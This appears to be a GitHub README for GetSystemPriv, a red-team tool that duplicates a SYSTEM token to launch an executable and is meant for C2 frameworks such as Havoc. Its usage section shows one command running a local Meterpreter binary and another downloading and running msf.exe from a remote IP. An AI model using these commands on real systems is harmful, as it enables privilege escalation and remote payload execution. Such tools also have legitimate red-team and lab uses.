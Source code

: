 # GetSystemPriv

Application for token duplication running chosen local executable file or by downloading one from given URL.
I'm a big fan of running *getsystem* while using Meterpreter and seeing SYSTEM context in the list of sessions, but it kind of annoys me when I don't have it using Havoc or any other C2. That's why I created GetSystemPriv. 
> This project is based on [TokenDuplicator](https://github.com/magnusstubman/tokenduplicator) by Magnus Stubman. 

## Usage
Local file execution:
`GetSystemPriv.exe local C:\Users\test\Desktop\msf.exe`

Remote file execution:
`GetSystemPriv.exe net http://10.10.14.15/msf.exe`

## Images
![screenshot - terminal](images/screen_terminal.png)
![screenshot - havoc](images/screen_havoc.png)
